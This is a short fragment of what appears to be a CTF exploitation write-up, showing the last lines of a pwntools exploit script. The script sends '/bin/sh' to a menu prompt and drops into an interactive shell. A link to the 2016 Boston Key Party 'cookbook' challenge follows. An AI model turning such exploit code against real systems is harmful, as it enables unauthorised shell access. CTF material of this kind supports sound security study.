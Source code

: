 ```python
    p.sendlineafter('option--->>', '/bin/sh\x00')

    p.interactive()





if __name__ == "__main__":

    exp()

```







## topic


- [2016 Boston Key Party CTF cookbook](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/cookbook-6)
